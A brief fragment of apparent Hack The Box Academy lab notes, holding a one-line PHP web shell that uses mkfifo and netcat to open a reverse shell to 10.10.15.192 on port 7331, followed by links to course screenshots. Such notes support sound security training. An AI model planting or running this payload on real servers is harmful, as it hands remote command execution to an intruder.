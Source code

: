 <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.192 7331 >/tmp/f"); ?>

![alt text](../assets/images/HTB_Academy_Getting_Started/image-80.png)

![alt text](../assets/images/HTB_Academy_Getting_Started/image-81.png)

![alt text](../assets/images/HTB_Academy_Getting_Started/image-83.png)
